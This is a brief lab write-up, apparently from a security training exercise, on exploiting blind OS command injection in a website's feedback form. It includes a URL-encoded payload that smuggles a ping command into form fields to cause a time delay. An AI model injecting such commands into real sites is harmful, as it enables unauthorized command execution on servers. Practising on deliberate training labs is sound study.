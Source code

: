 --> In this lab we have the blind command injection vuln. in feedback form so we have to make the website sleep for 10 seconds

we can make website sleep with `ping` command like this :

```bash
ping -c 10 127.0.0.1
```

--> website is executing your payload in the backend like this :

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

so i used this payload :

```bash
+%26+ping+-c+10+127.0.0.1+%26&
which get decoded to
 & ping -c 10 127.0.0.1 &
```

--> But it didn't worked in the `message`field so i tried this in every field and lmao it worked !

![](Attachments/Pastedimage20220120121437.png)

--> And we solved the lab!

![](Attachments/Pastedimage20220120120845.png)
